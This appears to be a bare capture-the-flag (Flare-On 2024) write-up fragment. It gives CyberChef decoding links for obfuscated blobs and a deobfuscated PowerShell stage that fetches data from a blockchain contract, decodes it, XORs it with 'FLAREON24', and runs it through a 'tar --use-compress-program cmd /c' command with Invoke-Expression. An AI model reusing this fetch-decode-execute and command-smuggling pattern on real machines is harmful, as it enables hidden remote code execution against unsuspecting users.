[CyberChef 1](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')From_Base64('A-Za-z0-9%2B/%3D',false,true)&input=NjE1NzM1MzI1NDMwNzQ2YzRjNTc1NjU5NjM0NjRhNDY2MzMxNGU0YTYyMzIzNDY3NGI0NTM1NmM1Njc5MzE1MAo1MTZiNzA2YzUxMzM1MTY3NTUzMzZjN2E2NDQ1NTY3NDRjNmI2Yzc2NGM2YzRlMzA1NTZkNTY2ODU0NTY0YTQ2CjUxNTc1MjZjNTU2OTY3NmY1NDZkNTY1ODRjNTUzOTQzNTM2ZDU2NDQ2NDQzNDI0YTYyNzkzNTQ0NTQzMDMxNTEKNTU2YjU2NTQ2MzMwNmM1MDYyNjkzNTZiNWE1NzVhNzM1MTU2NTI2YzYzMzM1Mjc5NWE1NzQ2NzQ0YjQzNDI2Mgo2MzMxNmM1NDU2NDc1NjRlNGM2YjZjNzY0YzZkMzE2YzYyNTUzOTUzNjU1NjRlMzA1NTZiNTY2ODU0NTYzMDY3CjU3MzI0ZTUwNTQ2ZTVhNDY2MzZlNTI2NDRmNmE3MDZkNTU2YjM5NzQ1OTZiNDY3YTUyNTQ1OTMwNTUzMzUyNzkKNjE1NTM1NmU0YjQzNjQ3MTU2NmQ1Mjc5NTk3OTc0NGQ1MjMwNTYzMjRkMzAzOTc5NGU1NzcwNGM1MzZkNjg2Ygo2MzQ2NDY1NDY0MzE0ZTQyNjI1ODY4NTQ2MjQ3NGE3OTU3NTY1OTc2NTc2ZTZiMzM1NjQ2NTYzMTUzNTUzMDMxCjY0NTU3NDQ4NjM0NTc4NzA1NDU1NjQ1ODUyNmU2YzU0NTY2YjM1NDk2MTQ4Njg0NDU1NDQ2NzM1NjM0NDQyNmMKNjE2YjQ5NzI1MTMyNzMzMDYzNmI3NDcyNjI1NjZmMzM2NDU3MzE1OTRlNmQ0ZDMyNTY3YTUxNzc0ZTMxNmM2Ygo1YTQ0NTk3YTY1NTMzODMyNGY1NzZmMzM1NzQ3NGEzMTRlN2E0ZDM1NjI2ZTUxNzY1OTU0NjQ2OTY1NDU0YTZlCjRkNDU2Yzc1NWE2YTRhNTA0ZjQ4Njg2ODRlNTczNDMxNjI2YTUyNTg2MjQ3NzA0NTUyNTg0NjY5NTM0Nzc4NDIKNjMzMzcwNGU1MjQ2NTYzNDU3NTg0YTZiNjQzMjY4NzA2MzZjNmY3OTUyNDU2NDU2NWEzMjUyNmQ1MjdhNDYzMAo2MTU4Njg1MjU1MzA2ODcxNTY3OTc0NGQ1NzZiNjg0NzUxMzA0ZDc3NjMzMjMxNDk2MTQ4NDI0NDYzNTU0NTc5CjY0NTU1Mjc5NGU0ODUxNzI2NDQ1NmMzNDRiMzAzNTc2NjEzMjcwNTk0ZjU3NmMzMzU3NTc1YTU2NjIzMTRhNTgKNTkzMjQ2MzE1NDZiNmM0NjRjMzM1NTdhNjMzMDY0NTU1NTMwNjQ0ODYzMzIzMTRjNTY1NjcwNzE2MTU1NWE3MQo1YTMzNTE3YTUxNmQ2NDc0NGU3YTY0NmU1NDU0NDI3NDUyN2E1Njc4NTU1NjUyNmM1MjZlNDY1YTU2N2E1NjQ0CjRkNTY0ZTQyNjI2ZTY0NzQ1MjMxNDYzNTRkNDc0YTQyNTU0NjY0NTI1NDdhNGE0ZjYzNDc3ODZlNGUzMTY3MzQKNjQzMjc4Nzg2NTQ0NWE1MDVhNTQ2NDZkNjE0NTU5MzU2MzU1MzQzNTU2NmE1YTZiNTkzMzRlNTk1YTU1MzQ3Mgo2NTZkNjg1NDU1MzA1NjU5NGY0NTZjNzU2NDMxNTEzNDU3NmQ0YTQzNTIzMzQ2NTA1NjU0NDY0NzY0MzI3NDZhCjUyNzkzOTM0NTk1Mzc0NDM1MTU1MzU0ZjU3NTQ0ZTM1NjU2ZDRlNmY0ZjQ1MzE0NzYxNTY1NTM0NTc2ZDM1MzYKNjQ0NDRlNmY2MjU1MzE3OTRiMzI0NjMxNTM0NDUyNGU2Mjc5NzQ0ZDYxNTc2Yzc0NGI3YTYzMzU1YTZlNWE0Mwo1MzQ4NTEzNTYyNTg2MzM0NTQ3YTY0NmY0ZjQ3NDY0YTRlNDU0ZTRiNTU0NzM1MzM1NTZhNmM3ODY1NTQ0OTMzCjVhNDU3MDUxNTQ0NTRlMzQ0ZTZlNGQ3MjY0NTQ2NDcyNTk3YTRlNzM0ZTZlNjQ1MDYyMzIzNTRlNjQ2YzY0NTkKNjU2YTY0NGU2NTQ4NGE2OTRlNTg1MjRjNGQ0NzY4NTk2NDU3NjQ3NzYxNTY1NjRhNTM1NjZjNGI1NjQ3Nzc3Nwo2MzdhNGU0YjY0NmIzOTU2NjM2YjY0NDY1MTU3NmI3MjRkNTg1YTc3NjMzMTRlNGI1NjZkMzAzMzYzMzE0YTMxCjU1NmI2NDRiNGUzMTVhMzU2NDZjNjM3MjY0MzI2NDY5NTI2YzUyNjk1OTU0NWE0NzRiMzM0ZTMzNjQ2ZDc0NzgKNTY1NTUyNDM1YTU4NWE2YTRiMzM2Yzc0NTU0NjQ2NjE0YjMwNzg0ZTU5NTU0ZTRjNGMzMDZmNzg0ZTQzNzQzNAo2MzU0Njg3NDY0NTg1YTRmNjQzMDM1NmI2MTMxNGE2ODYxNDU1YTM2NWEzMDM1N2E1OTdhNDY1YTUzNmQzODc3CjRkNTU1OTM0NjI2ZTRhNmM1MzMzNDYzNDU5NmI3Mzc2NTY1NTMwNzk2MzZkMzA3MjRkNTQ2NDU0NTI2YTVhMzAKNTQ2YTY0NzA1YTQ1NWE1MTRkMzA3NDU5NTk2ZDZjNTY2MjQ1Njg1MzU1NTY0MjU3NTQ0NTU1MzM1NTQ1NTY3Mwo1NjZkNjg1MzU3NTc2YjMxNjE1NDZjNDM1YTU1NTI3NTU0NmU1YTU3NGIzMzRlNTQ2MjU3NzMzMjUxNTU3NDVhCjUzNmQ1MjM0NGQ2YjY4NTc0YjMzNjQ2YjU3NTQ0NTcyNjU0NTY3Nzg2MzMyNDY3MTUzNTU3MDZmNWE2ZDU1MzAKNGQ1NzUyMzQ1YTMzNjM3NjUyNmM1OTc5NTY0NTY4NzE0ZjQ3NTY1NTRlNDQ0Mjc1NjE2ZTcwNTk1MzU3NTY2MQo2MTMwMzk0ODUxNzk3NDQ1NGQ2YjU5Nzg2NDQ1NTIzMDYyNmM2Yzc4NTc0NTY0NDg0YzMxNjQ1NzUzNmQ3MDMzCjUzNmU0MjMwNTU2ZDYzMzM2NTU4NDkzMzUxMzM1MjUxNGQ1NDRhNjE1NDZhNTI0NTU1NDc2ODMwNWE3YTQ2NTQKNGU0NzU2NTA1NzQ3NTkzMjU0NTg2YzZkNjI1NTZiNzY1NTQ4NTI0NjY1NTU3NDMzNGI3YTRlNmE1MzU1Mzg3YQo1MzU2Njg0ZjYxNDU2YzcxNjQ1NjRhN2E1NDU1NDY0MjUzMzA2NDY4NTk2ZTRhNTU1NzZiNzMzMDUyMzM0MjRlCjUxNmM0ZTQyNjI3YTZjNDk2MTMyNmM0NjU2NDg2NDc4NTY0NDQ5MzM2MjU3Nzg0YjRlNTU1MjY5NTY2OTM5NTQKNTQzMzZjNmM2MzU0NWEzNDVhNTg0YTQyNTkzMzcwNDI1NTU4NGU1NDY0NTY0ZTUxNTMzMzRhNGI1YTZiNTI0Zgo1NDMyNTI2YjY1NmU2YzRiNGU2Yjc4NTQ1NDU1MzE1NTY0NTQ0ZTczNTY0NjUyNDk1MzdhNmI3NjVhNTM3MzcyCjU0NTU2NDMyNjM0NDU2Njg2NTZkNGE3ODVhNjkzOTU0NjI1ODRkNzI2NDQ3NjQ0ZTUzNmU0NjRlNjM0NDRlNTkKNGY1NDRlNDY0ZTQ4NDIzMDVhNTQ1OTMxNTIzMjcwNTU1NTQ0NDI3MjUyNmI3MDc5NTM0NTMxNzA0ZDU4NTUzMAo2MzU3NGE3OTY0NTg1MjQzNjI0NzRhNTU1NTQ1NzA0ODUyNDc2ODYxNTY2YjU5MzA1MzdhNjQ1OTYyMzE1NjZhCjRiMzA0ZTcyNTMzMjVhNzY1MTZhNDYzMDUzNDY2ODU5NTU2Yjc0NzE2MzZkNjM3MjY0NTc2YzMxNjI0ODQ5MzQKNGM3OTM4MzA1OTY5Mzg3YTYzNTY2NDRjNGU1ODQ2NTA2MzY5Mzk0NzU0NmQ0NTcyNTc1NjU2Nzc0ZjU1Mzk2MQo2NTQ4NjM3ODU3NTQ0ZTQ5NTY0NjVhNjE2MzMzNWE0NTUzNmE1MTM0NjU2YTY0MzM1MTZjNzA3OTUyMzA0NTdhCjYyNmQ3NDU4NTU0NTcwNmQ0YzMyNzA3NDRkNDUzNTQ5NTI2YjRlMzE0ZjU1NjQzNjU0MzI1YTc5NjU2YzU5N2EKNTc2YzUxMzE1NDU2NGQ3NjUxNmQ2YzRiNTQ2ZTRlMzA0ZTQ4Njg1NzY0MzI1NjZhNjIzMDRlNzc1MjQ1Mzk2ZQo1MjU1Nzg2YjRkNDU1NjQ0NGIzMjM1NTU0ZDQ1NTkzNDU3NDQ1MjU3NjU2ZDZjNDY2MjMwMzE0ZDVhN2E2ODQ2CjRiMzE0ZTZlNjMzMjVhNWE1NDQ4NDIzMzU1NDY2NzM0NjI0Mzc0NTI1MzMzNTY3YTU2NDY1MjUwNjIzMTY0NDMKNTU1NTZiMzM2NDQ1MzE1MjU1NDg0NjM1NTE2YjUxMzU2NTU1NTIzMjRlNDY3MDU5NTc0NTY4Njg2MTU1Njg0OQo1NTQ2Njg1NjU2NTQ2ODRmNjI0NzYzMzE2NTZlNWE3NDUyNmI0NTMwNTEzMzY0MzE0ZjQ1NmM0NzUyNDU3NDYxCjUzNmQ3ODMxNTE1ODU2NDU1NTMxNmM0NDU1NDQ1MjMzNTYzMDQ2NmQ0ZjQ4NDY2YzUzNTU0YTZhNTM2YTQyNmYKNTM0NjQxNzY0ZTU2NTk3MjYyNDg0ZTcyNGU0NzQ5N2E2MzQ2NGU3MDVhMzE2MzM1NGQ1NDQyNmY1NDU4NWE0Zgo0ZTZkNGU2YTU3NDU0YTM0NGQ2ZDRhMzU1MTU4NGE1MzY1NmI3NzMzNTI2ZDQ2Nzg2MjQ2NTI0YzUzNmU2YzczCjUzMzM1YTZlNTE1NDY0NGQ2MzU2NzAzMTVhMzM0MjQ5NTU1NzMxMzU1NjdhNjQ0OTU0NTY0YTZlNjM0MzM5NGUKNjI0ODcwNzc1NDMxNmM0NDRmNDU1YTU5NTI0NTc4NmQ1YTZkNmIzMzU0N2E0MjQ2NGQ0NjU2Njk0ZjU3NmM1NQo0ZjQ0NjMzNTUzNmQ2ODMzNjI2OTM4Nzc1MjZhNDY0YTU1NmU1MjU0NjU0ODU2NDQ1NDMzNTE3NzUzNTc2ZjMzCjU3NmE1MjUzNWEzMjQ2NGQ1MTUzMzg3OTU2N2E1NjZiNjM1NDVhMzU0YjMwNGE1MzRkMzA3ODQzNjQ0Nzc0NzUKNTM2ZDYzNzI0ZTQzMzk2ZDY0MzIzNTU5NWE2YjcwNTM2NDQzMzk0YzRlNTY0ZTMzNTY0NzRhNTQ1MjU3MzU3NQo2MzZhNTI0ZTUyNTQ2ODQ2NGQ0ODQyNGU1NzQ2NGU3MjUyNTc3NDRjNTM0NzY4NzM2NTZjNGU2MTU3NmQ3ODczCjU2NTY2NDZlNTU2YjM5NzE1NjZhNDU3YTU0NDU1Njc5NjQzMDUyNTk1MzU1NTI0NTU2MzA3Nzc2NGIzMzU2NGYKNjEzMDU2MzA0ZTMzNmM0YjU2NDY1MTc2NjIzMzRhNTE0YzMxNjg2MTRkNzkzOTMwNTU0ODUyN2E1NTQ2NjczNQo2MjQ3NTUzMjU5NmM2ODMzNTQ1NDQyMzM0ZDQ3NTY0MzU1MzE2YzM2NTE2ZTY4NTE2MTZiNTUzMjRmNDg0NjU2CjVhNmI1MTc2NjM2ZTcwNTg0ZTZkNGU1OTU3NDg1MjQ4NWE1NTc4NDk2NDQ0NDI2YTU0MzM1MTc3NWE1NzYzMzIKNTQ0NTM1NTE2MTQ3NGQ3MjU1NDU1YTMyNGU3YTU2NDU1MTMzNmM0NTUxNmE1YTczNTQ2ZTRhNDI2NDMyNWE0ZQo2MTQ3Njg0MjRlNTU1MjU1NTkzMTQ2NGU1NjU0NGE1ODU1NDU3NDU0NTM2YTRhNTE2MzZlNjQzMDRlNTc0YTQzCjU1MzE0MjRjNjI2YTVhNzc1MjQ1NGU0ZjUzNmI0YTUyNjQzMjc3Nzc1NjMyMzU1OTUyN2E0ZTM1NTQ1NzM1NTAKNTMzMDM1MzQ1NDMyNDY2MTU3NDc1MjU5NjE0NzZjNzU2NTZiMzU3ODUxNmI0YTMzNTU0NTRhNTI0YjMwNmYzMAo0ZjQ3NmM1YTUzNmQ3ODM1NTM2Yjc4NWE1YTQ4NmM1MDYzNDUzOTQ3NGQ1ODRlNzc2MzQ1Njg2OTYyNmIzOTQ0CjYxNDQ1NTMwNTYzMjVhNzI2MjMyNjczMzU2NTQ2NDMwNjQ1NzUyNmM2MzQ2NjQ2YzRkNmM2YjM0NTI0ODY0NmEKNTI1NTM5NzU1MzdhNGE0MzYyMzI1MjczNGQzMzVhNTY2MjZkNWE0NjRkNmIzOTZjNWE1NzcwNDk1YTZlNTkzNQo2MTU4Njg1OTY0NmI1Mjc3NTc0NjQ2MzE1NTdhNGU3NDYyNDc0ZDc5NTIzMjRhMzQ2MzU3NGE3MTU1MzI1NjMzCjUzNDQ0NTMzNTU0ODQyMzU1NDQ3Nzc3OTY0NDg0YTRmNWE1NzMxNzQ1NTU1MzkzMzUyNTY0NjMxNTM2ZDU2NTAKNTU0NDVhNDg0ZjU2NWE0YjUzNTc3ODRlNGU2ZTZjNDU1NzQ2NzAzNDYyNmU1YTc2NTIzMzY4NTQ1NjZiNDY3NAo1NjQ4NDY0OTYxNmI3ODc0NTQ2YTZjNTU2MjQ1NmM0ODRjMzI0ZTczNjE1ODZjNmU2MjQ2NmM2YTYxNDY0NjRkCjY1NDY2ODc3NTk2YjYzMzQ2MTQ2NTU3NzU3NmQ3ODY5NWE0NTM1NTA2NDU4NTI3ODU5NmM0MjMxNGQ3YTY4NzUKNTI1MzM5NDU0ZTU3NTY3OTU0Njk3NDU1NjE1NzRkMzM2MzU3Mzk3MTRiMzA2YjdhNTU2ZDUyNGY1OTU4NjQ0NAo1MjZlNTY3NDRkNmM3MDUzNGY0NzMxNmM1OTU4NTY0ZjY0MzE0NjQ1NTI0NTM5NDY2NTZlNTE3OTYxNmI0ZTRiCjU3NDQ1Njc4NTY0NzM5NmI1NTMwNmM0NDUyMzE1MjRkNTc2YjRlNTM2NDMyNzQ2MTRlNmQ3ODQ0NTc2ZDY4NmYKNjM0NjU2NzI1NDQ3Mzk2ODU3NTU2ODU1NjM1NzUxMzM1NjQ1Nzg2ZDYyMzM1NjU4NTQzMDZjMzU0ZTZjNGEzNQo0ZTQ3NmI3NzY0NDg0ZTMzNGQ1NDRlN2E1MTU0NDY1MDRkNTM3NDQ0NTEzMDRhNGY2NTQ4NGE0ZjRkMzAzNTRkCjYyNTQ0ZDMxNWE2YzQyNmQ0ZjQ1NzQ1MDU2NDUzMTcyNGQ3YTQyMzA2MjU2NzA0NTUxMzE2YzM1NTU0NzRlN2EKNWE1NjcwNGU0ZTZiMzk1NjYxNmIzOTU2NTU0NjUyMzA1MjQ1MzE2OTU3NTQ2NDc3NWE1ODQyNzk1MjZlNTI3NAo1NTU1NTU3MjYxNmM1YTM1NWE1ODY4NmQ1NjZiMzgzMTU2NDUzNTUxNGQ1NTM1NGM1MTU4NTkzMTU0NmE1MjM0CjU0NTc3NDYxNTc2YjRlNTY1MjMyNDY3MTY0NDU1NjQ0NTY2YjczMzQ0ZDU4Njg3MDU2NTU1YTZjNjIzMDM1NzkKNTI2YzY4NDg1NDQ0NTEzMTYyNDU2NDczNjQ1ODY4MzE1MjUzMzkzNjRiMzA0YTRlNTc1NjYzN2E1MzMwMzk3OQo2NDU1NDUzNDUyMzI2ODc5NjE2ZDU2MzY2MjZlNDY0ODU2NDU1YTZkNGY1NzQ2NTc0ZDMxNmM1MTU3NTUzMTZkCjYyNTY1YTRlNTE2ZTRkMzI0ZDZhNjQ3NjYxNmM0Mjc4NGQzMTVhMzQ2MTQ4NGE2ODU3NTc3ODQyNTM2ZTQyNDMKNGY1NDQyNTk1MjU4NDY0YzUzNDU3MDQyNGQ1Nzc4NzA1YTQ0NGE3ODYxNmI0NjczNTI2YTUxNzk1OTU2NzA1Nwo2MTMwMzg3OTYxNmQ0YTZiNTQ0NDRhNTc1MzQ1Njg2YzRmNDc0YTM1NTY1NzVhNGM1MzZkNzg2ODYxNDg1MjM0CjU3NTU3Nzc3NjM1NTQ2NmI0ZTQ1NDY0NTYxNTg0NjQ1NTMzMjZiNzg2MTMyNmM0YTY0NDY0NjM0NjEzMjU2NDYKNGU2YjU2Nzc2MzMyNjg2YzU5NmU1OTdhNjM1NjUxNzI0ZTUzMzk0ZTYxNmI2ODczNTI2YTQ1Nzc2MjU2NTE3Nwo2MjMwNGE1MDYxNmI3Mzc4NGUzMDRlNmE1NDMzNTI1MTU5MzAzOTMwNjEzMjZjMzI1MzU3Nzg1MzU2NmQ1NjZlCjY1NmU3MDcwNjQzMDM1NzA0ZTMzNjg3MzU1NDg0NjcxNWEzMjQ2NjE2MzZhNGU1NDU0MzI3Nzc4NjI0ODQxN2EKNjE2ZTY4MzY1MTMwMzk0NTU0NmQ3ODczNjIzMjU2NzI2NTU3NTY0ZDUzNTg2ODQyNTE2ZTQyNTY1NTU2NWE2YQo1NjU2NDE3NzRkNmIzODM1NGQ1NzRlMzA1MjMzNDY3NDYxMzE0ZTRlNWE1NzQ2MzM1OTU3NTI0OTRlNTY1MTc4CjRkMzM0YTRiNTM2YjQ2NTQ1NDZiMzk3MjU2NmU1MjM2NTUzMjRlNzY2MTMzNDI1OTRmNTU3MDU4NGIzMTcwNGIKNTUzMzZiMzE2NTU3NGU0YTUzNmU2NzcyNjQzMzQyNTI1NDMwNzg0OTYxNmU1MjcyNGQ0NDU5Nzc2MjQ2Njg1OAo2MTU2NWE3NzU5NTQ1MjY4NjQ1NDQ1Nzk0ZDMyMzk3NDU2MzA3NDc2NjI0NjRlMzA1MzZjNGU1NDRmNTY1YTc4CjU0NmE0YTZmNjE2YTRhN2E0ZDU1NmIzMDU5NmE0YTZkNjQ3YTUxMzQ1MTZkNjMzMjU3NmI3MDZjNGU2YjM4NzkKNGMzMDU2NTU1NDU1MzU3MTVhNmE2ODU0NGQzMzUyNDk0YjMyNTYzMzYxNmQ1NjQyNGU3YTQyMzY0ZTQ1NzA1Mgo0ZjU1NzQ2ZjY0NmI0ZTc0NTI1NzRlNmY1MjMzNjM3NzRjMzE1OTdhNTY3YTZjNGU1NzQ1NzQ3MDRkNjkzODMyCjYyNDczODc4NTYzMTRhNmY1MzMwNjc3ODYyNmE2YzU2NTUzMTRlNjE1OTZkNTIzMjUxNTU2ZjMxNTM0NDZiN2EKNTU2ZTRhNDk1NjZkNTY3OTUyMzM0ZTc3NjM1NjY0MzI1NjdhNDI3MjUzNDc0YTM2NWEzMTcwNGY0YzMxNWE3MQo1NDU1Nzg3NDRkNmI3ODRhNjIzMjZjNTU1YTZkNmMzNTVhNmQ2ODRiNjQ0NDZjNmQ1NDZiNmIzMTY0NTczOTdhCjRjN2E0YTU5NGY0NDQyNzc2MTdhNDI1NTU0NTc1YTRjNTI0ODY3MzU2MjU2NDI0NTRkNDQ1MTM0NTI0NDY4NmIKNTQzMDM1NTA1MzZiNzg1MTY0NTU2ZjdhNjI0NDQ2MzU1YTZkMzk3OTU5NmIzMTY4NjQ0NjY4NTE1NjZkNTY0ZQo0ZTU0NmM1MDRiMzM0NjU3NWE2YTQyMzI0YTc5NDE3MDQ5NDM3NzY3NTczMjZjNTA0YzZkNGU3NjYyNTg0MjUzCjUyNTY0ZTU0NTM1NTM5NGY0YzZiNGU3NjYyNTg0MjUzNTI1ODRlNTQ2MTU3Mzk3NTU0NTczOTZiNWE1NjMwMzYKNGY2ZDUyNDY1OTMyMzk0ZTU1NDg0YTQ2NjMzMzRkNjc0YjUzNDE3MDQ5NDM3NzY3NTczMTRlMzU1NTMzNTI0Ngo2MjUzMzU1NTUyNTY2ODMwNGM2YjU2NzU1MTMyMzk2YjUzNTUzNTZlNTg1NDZmMzY1OTU4NGU0NDUzNTU2YjcwCjRiNTMzNTUzNWE1NzQ2NDU1NjQ1Mzk0NjU0NmI1MTZmNGI1MTNkM2Q&oeol=VT), [CyberChef 2](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,true)Raw_Inflate(0,0,'Adaptive',false,false)&input=alZkcmMrTEdFdjNPcjVqS0poZHBRU3dTQW14U2xicllWL1p5N1RVdUlNNXVLR3BMaU1HV0Z5U1ZOSGh4Q1A4OXAwZWpCK0NrNHJLa21aN3VtWDZjNlc0MDdZZGQ2M3kvNjlqN1hidTczOW50L2E3YnhCZzBJbmYyTzh4YTVuNW40V2xqREVxYkhsQXN6TURVeFlyZHdoaXJaMkRHVWdkZkcxdGl4UVNIalcrTFpIRkNDMHNtSGhwQ3FBMnVEcjR0K3RJeCtOb2tqWDlpd1lmVW9SV2NhdU5JRS91M3NHVFNHR3NtS1VaamlGamd0M0JnbTc3Z00wbUc1cVFUZUZxWVc1QzFTQW53bUdReTBiQVBXUU8yTnBsZzdYOHdscXg2T2U3ZmhGOXFOOVY2ZGNzWGVOK3poU1NFWDhJbndUOFpiQkdxT1UxRndrY0cveGErQkFOTlkzeXpjaDhNRmlVOFpuenQzaG1NcithdUg0TW8rTGlpbSs3OWZ2Qkh0OW13OE83aDhhSTRDSlBud1I5cXkyN2RKUExDeDZzK3U3a2MzbDZ3T29uTXZXWHo3TXhyYjV0SzBoWHVncGlVSUlZSlRsMHMzSnZPVXJHRUFpKzF2cHNTSlZtN3NSdVJHSjdWeXZXK3dnYkZUYmE2Ritzd3ZrcVVEQmV2Yyt5bVBRWitMTWFDSy9KMTQreHE4bXV2TndOZGtSYWhGemdOc2MxWUpvMDFGOG5yZUtxeGJLL1VNMnJtKzE3U0Y2dE43aWRGUDNLWGJpVWxIUlFQVkxFN1BFbFZoUllpNWk5QmVEbk52VitzU21rNkFLWUpkeDJIVit3ZFkxK3hIMXNhaklKaGZlNDFkeGd3L0ZWMlRIajhlVDQwbmp6WEllWmtPR0MrRDJGMXREdG5ZcVhHRy9XVkpqd0pwdFJnN3lyN0N0UDEyWk40RFBodGcxUzRlT1hmNk15Zm1JL1B0RXlLdyszY0lPM0lYTmhJanVSc01BQUtHYWJyVFpLNEdwTUJTQW85SGtpRVR3cVQyN21sSjVEYlYvU095ZXE2eGVyQWN6QVFzU3VTUEtySmZETk9kZHp5SjZMU01NVHUzbFRUSEs5L2UrK01HdnA1YXpicWYvU21zK3RnTUpxTXAzWDkzRTRwdGU2NUdqVFAwa0ZKckhNaTF1NHFicnV0QmxiVFBKR0RoWlZGNEs3WG9VYytDa0tmb0IxdEhYWFJLanJnK3VpdWxyOC8vNGIvM3FXSzVxT3IvRk5hK1lVcDlPWnh3MVkzSFRWWnN2REo0OHo3d0JackdBM25rV1BKZi9qbTBOSEZDdTlHek9mcnpWM1pUNU1TL0JpSk5zdDR4VndlY29DcERPZ0VMZDBFQytuVDBGOFg0VnppRW9NTGc4RStTZ3NmWUxwd1BYOGwrUUt1c1RUT29XQlFJN3RNUVBxeUJEOXlEdjRaWFhIYWlISFBYVVU4TmxnNXp2bUZBNEN3dThJRkRLWkpsdUF1RFNZQ1A0d1dBZjhxZUlCY0owaEhQLzVWK2xzazRiM3BTaWdXOTEwaE12TjZjY1hCeDJieUFyUnpMN0ZhcWxUS0p5bEt2Z0E3THFadWdwSFFteVc3SE1SZ3AvTWx6cE9ZQzhGWERMZmZpN08wRTBVYjlpVDg3OUpod24vMEYxSVJ0U3h1Q090MElqN1o0UmdhTEEvMlc1ZHE2eStCUjNMQnRrbkpnKzQvZnduWGZKUnQvSzVTd1RiU0VubnI0TUU4RTBwTVhTa0VrS0hobHpTWlpsbFVXZ1JPalYxM0xFcndEWElERFdMLyt1TmtFdDd5SlRUL29yUC9YWjMvdFB0c1BYOWxlNmJYd00wdzBlQlNZekJ4UGpFNjhxVWZEL3J6VzZjWFh0R2VMSHQwY090MGVnNkxOUGhjK1BGdjc1REN5REI2bE5yQXdmTWhoQTVEVGNRTVUyV1BLU0oyUHJ3dDViQlNQS242cERDTkpCUXdsMFduWEczeU1uT0tOeE9hWlhkWGhpbnpOcUJCd1BCUStKNDhpWUpseUpMWWR5T3BPRjFzcHBIYm5PQ2g1NFdma29oN1U3dHVkZXBXZTJZOER3Y0VPbksyQm9kbDN2VW5mRTJPZWVqSGZ2OWl4WHZEcFhRdVMzbWxjMkdieHFialNld0gxN1BweUxsMnRyTmVtbVFPd0VRdUplT1A2RzlWSklsTTZ5RFhaeG52b0d4U1ZBbVRxSGpMbU45VGxJRy9jbGl5Z2xZY2hRTHhYcGJHOGhVMFpsYmROT3V0cWJQdTM4bkUvRDVlck4rVGljN3FvaitJM1JkTmF3Q0Z1bTJaUjhtZWF1TndRRERPRXp0MmpDSlg1cVRvZFNJQ0dUTFpDUndrWjZsQ1poaHBVa0xvYVlIVHFkN1RMZm91V09JeTZSeTRpMHRzdzEzc0ExTzErQ0NCTnhyTjNOTG0zNWZQZjhLT1RNazMwdG1aRENZeVBjc2VaTTZPVWpPVVBUdERNYlk3cGVwckZ0bVFFK2pWeWV4ZlZPNVROUDFOS0F2NU40eE1rWlpDVUdhanRFQ1ZLODF4aVVGZW9OckZYR0w0NWxHbHV4dUUveitCTVlXM0tPcnVBOEdocmplem5xR1RGZjlhVjNZUFlNZm1WTUJzNjI3b2pQcTNWeGhyYVlsQUpwQjkwWEVxS0hKQTFsaWQycWpBbEY0MmFaVmtPMmpiZEwyVkhIZThieVVmS0psYWh0eFlMMHFBZDRBRGlxREtpMWtpSXRReGtlRTZFcHNoZWJ2M3FUKzUvTWpIbEYxMG1UMG9CT2pLMTdDY090UGNPdGtpdklsUlZlZ3p6aXdOaTd4bFBxamdhWnIzU09sMWxwM2p4ekNPRE5sbG9la3llTEl4QUJwVVFWY1VQMDJPOTFjdEdxbWtTTWVhd2FkSDVUMTNySkpBU05Pa1Z0elNjb2twWDlKVytaSlN5NXljSUp4K3dwUU9MSGp0azA2MGxYV2lWcGE0YXUxMjNvbVdLb2xTdEpTUzlWcU4yaGoyczFJNGIyZnc0OEJnNlpKZTZPMi9FVE1OamY4UzN0SCtld2plQTcwejRKUTlLaHZDbUVjaEd3MC9WM1c5TVhLaTIvNmxvMVdSaEtIMW45VVNTWmJkdkFKNUg5M1JySFZlckdzcHFXdlcwa0hiemdaTi9Wak1MbTJMSW9pVGZpeWZoSnQ5Zk5JNXVvcy8yWDgwcGswVE1mS0R4OW1QRDA0OEQ4ZE9OT0pMUHVKM2wxeWZvcmJNYXRYUFZlTTU5TytxVmYwdg&oeol=CR)

```powershell
Set-Variable -Name testnet_endpoint -Value (" ")
Set-Variable -Name _body -Value ('{"method":"eth_call","params":[{"to":"$address","data":"0x5c880fcb"}, BLOCK],"id":1,"jsonrpc":"2.0"}')
Set-Variable -Name resp -Value ((Invoke-RestMethod -Method 'Post' -Uri $testnet_endpoint -ContentType "application/json" -Body $_body).result)
# Remove the '0x' prefix
Set-Variable -Name hexNumber -Value ($resp -replace '0x', '')
# Convert from hex to bytes (ensuring pairs of hex characters)
Set-Variable -Name bytes0 -Value (0..($hexNumber.Length / 2 - 1) | ForEach-Object {
        Set-Variable -Name startIndex -Value ($_ * 2)
        Set-Variable -Name endIndex -Value ($startIndex + 1)
        [Convert]::ToByte($hexNumber.Substring($startIndex, 2), 16)
    })
Set-Variable -Name bytes1 -Value ([System.Text.Encoding]::UTF8.GetString($bytes0))
Set-Variable -Name bytes2 -Value ($bytes1.Substring(64, 188))
# Convert from base64 to bytes
Set-Variable -Name bytesFromBase64 -Value ([Convert]::FromBase64String($bytes2))
Set-Variable -Name resultAscii -Value ([System.Text.Encoding]::UTF8.GetString($bytesFromBase64))
# Format each byte as two-digit hex with uppercase letters
Set-Variable -Name hexBytes -Value ($resultAscii | ForEach-Object { '{0:X2}' -f $_ })
Set-Variable -Name hexString -Value ($hexBytes -join ' ')
#Write-Output $hexString
Set-Variable -Name hexBytes -Value ($hexBytes -replace " ", "")
# Convert from hex to bytes (ensuring pairs of hex characters)
Set-Variable -Name bytes3 -Value (0..($hexBytes.Length / 2 - 1) | ForEach-Object {
        Set-Variable -Name startIndex -Value ($_ * 2)
        Set-Variable -Name endIndex -Value ($startIndex + 1)
        [Convert]::ToByte($hexBytes.Substring($startIndex, 2), 16)
    })
Set-Variable -Name bytes5 -Value ([Text.Encoding]::UTF8.GetString($bytes3))
# Convert the key to bytes
Set-Variable -Name keyBytes -Value ([Text.Encoding]::ASCII.GetBytes("FLAREON24"))
# Perform the XOR operation
Set-Variable -Name resultBytes -Value (@())
for (Set-Variable -Name i -Value (0); $i -lt $bytes5.Length; $i++) {
    Set-Variable -Name resultBytes -Value ($resultBytes + ($bytes5[$i] -bxor $keyBytes[$i % $keyBytes.Length]))
}
# Convert the result back to a string (assuming ASCII encoding)
Set-Variable -Name resultString -Value ([System.Text.Encoding]::ASCII.GetString($resultBytes))
Set-Variable -Name command -Value ("tar -x --use-compress-program 'cmd /c echo $resultString > C:\\flag' -f C:\\flag")
Invoke-Expression $command
```

[Testnet BSCScan result](https://testnet.bscscan.com/tx/0xae4711c6e9d6d8f5d00a88e1adb35595bc7d7a73130e87356e3e71e65e17f337)

